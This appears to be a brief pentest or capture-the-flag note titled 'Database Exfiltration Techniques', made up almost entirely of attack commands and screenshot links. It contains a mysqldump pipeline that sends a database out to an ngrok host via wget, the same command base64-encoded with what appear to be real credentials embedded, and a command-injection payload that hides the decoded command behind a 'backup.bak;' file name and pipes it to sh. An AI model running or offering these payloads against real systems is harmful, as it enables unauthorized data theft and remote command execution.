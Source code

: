 ## Database Exfiltration Techniques

```
mysqldump -h [DB_HOST] -u [DB_USERNAME] -p[DB_PASS] [DB_NAME] | base64  | while read line; do wget "http:///e794-41-74-120-172.ngrok-free.app/${line}"; done%
```
```
bXlzcWxkdW1wIC1oIGRiIC11IGNoYXJiZWwgLXBQQHNzdzByZDEyMzQgZmxhc2sgfCBiYXNlNjQgIHwgd2hpbGUgcmVhZCBsaW5lOyBkbyB3Z2V0ICJodHRwOi8vL2U3OTQtNDEtNzQtMTIwLTE3Mi5uZ3Jvay1mcmVlLmFwcC8ke2xpbmV9IjsgZG9uZQ==
```
```
backup.bak; echo bXlzcWxkdW1wIC1oIGRiIC11IGNoYXJiZWwgLXBQQHNzdzByZDEyMzQgZmxhc2sgfCBiYXNlNjQgIHwgd2hpbGUgcmVhZCBsaW5lOyBkbyB3Z2V0ICJodHRwOi8vL2U3OTQtNDEtNzQtMTIwLTE3Mi5uZ3Jvay1mcmVlLmFwcC8ke2xpbmV9IjsgZG9uZQ== | base64 -d | sh
```

![image](https://hackmd.io/_uploads/rJR19Jxb1e.png)

![image](https://hackmd.io/_uploads/BkQC9Jx-ye.png)


![image](https://hackmd.io/_uploads/r1-nY1lbJl.png)
